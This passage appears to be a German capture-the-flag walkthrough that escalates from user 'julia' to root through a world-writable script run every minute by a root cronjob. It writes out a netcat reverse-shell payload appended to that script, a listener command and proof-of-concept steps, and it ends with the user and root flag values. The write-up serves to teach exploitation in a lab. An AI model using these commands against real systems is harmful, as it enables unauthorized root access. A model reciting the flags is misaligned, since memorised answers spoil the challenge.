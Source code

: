 ### Julia zu Root (Cronjob & beschreibbares Skript)

1.  **Enumeration als `julia`:**
    *   `sudo -l` zeigte, dass `julia` ein Passwort für `sudo` benötigt.
    *   SUID-Suche fand keine ungewöhnlichen Binaries.
    *   Die System-Crontab (`cat /etc/crontab`) enthielt einen kritischen Eintrag:
        ```cron
        * * * * * root /bin/bash /var/cron/check.sh
        ```
    *   Das Skript `/var/cron/check.sh` hatte die Berechtigungen `-rwxrwxrwx` (weltweit beschreibbar).

2.  **Ausnutzung des Cronjobs:**
    *   Eine Netcat-Reverse-Shell-Payload wurde an `/var/cron/check.sh` angehängt:
        ```bash
        echo 'nc -e /bin/sh [Angreifer-IP] 4447' >> /var/cron/check.sh
        ```
    *   Ein `nc`-Listener auf Port `4447` wurde gestartet.
    *   Nach maximal einer Minute führte der Cronjob das modifizierte Skript als `root` aus und startete die Reverse Shell.
    *   `id` in der neuen Shell bestätigte `uid=0(root)`.

---

## Proof of Concept (Root Access via Cronjob)

**Kurzbeschreibung:** Die finale Privilegieneskalation von `julia` zu `root` nutzte einen unsicher konfigurierten Cronjob aus. Dieser führte jede Minute das Skript `/var/cron/check.sh` als `root` aus. Da dieses Skript weltweit beschreibbar war, konnte der Benutzer `julia` eine Reverse-Shell-Payload anhängen. Beim nächsten Ausführen des Cronjobs wurde die Payload mit Root-Rechten ausgeführt.

**Schritte (als `julia`):**
1.  Hänge eine Reverse-Shell-Payload an `/var/cron/check.sh` an:
    ```bash
    echo 'nc -e /bin/sh [IP_DES_ANGREIFERS] [PORT]' >> /var/cron/check.sh
    # z.B. echo 'nc -e /bin/sh 192.168.2.121 4447' >> /var/cron/check.sh
    ```
2.  Starte einen Netcat-Listener auf dem Angreifer-System auf dem gewählten Port:
    ```bash
    nc -lvnp [PORT] # z.B. nc -lvnp 4447
    ```
3.  Warte maximal eine Minute, bis der Cronjob ausgeführt wird.
**Ergebnis:** Eine Reverse Shell mit `uid=0(root)` verbindet sich zum Listener.

---

## Flags

*   **User Flag (`/home/julia/user.txt`):**
    ```
    c2e285cb33cecdbeb83d2189e983a8c0
    ```
*   **Root Flag (`/root/root.txt`):**
    ```
    c84baebe0faa2fcdc2f1a4a9f6e2fbfc
    ```

---